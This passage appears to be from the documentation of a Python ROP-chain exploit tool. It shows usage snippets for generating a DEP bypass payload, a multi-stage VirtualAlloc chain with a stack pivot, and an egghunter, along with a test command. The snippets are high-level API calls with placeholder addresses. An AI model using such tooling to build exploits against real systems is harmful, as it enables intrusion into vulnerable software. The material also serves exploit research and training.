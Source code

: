 ```python
```

### Complete DEP Bypass Payload

```python
# Generate complete DEP bypass payload
payload = chainer.create_dep_bypass_payload(
    shellcode_addr=0x401000,
    shellcode_size=0x400
)

if payload:
    print("DEP bypass payload generated!")
    print(payload.dump())
    print(payload.dump('python'))
```

### Multi-Stage Exploit

```python
# Stage 1: Allocate executable memory
stage1 = chainer.generate_virtualalloc_chain(size=0x1000)

# Stage 2: Pivot to second buffer for larger payload
stage2_buffer = 0x12345000
complete_chain = chainer.insert_pivot_gadget(stage1, stage2_buffer)

print("Multi-stage payload created!")
```

### Egghunter Technique

```python
# Create egghunter for when buffer space is limited
hunter = chainer.insert_egghunter(egg_signature=0x41424344)  # "DCBA"

if hunter:
    print("Egghunter created! Place this in limited buffer space.")
    print("Mark your shellcode with the egg signature: \\x44\\x43\\x42\\x41\\x44\\x43\\x42\\x41")
    print(hunter.dump('python'))
```

## Testing

Run the comprehensive test suite:

```bash
python3 test_dep_bypass.py
```

This will test all functionality and provide a practical demonstration.

## API Reference
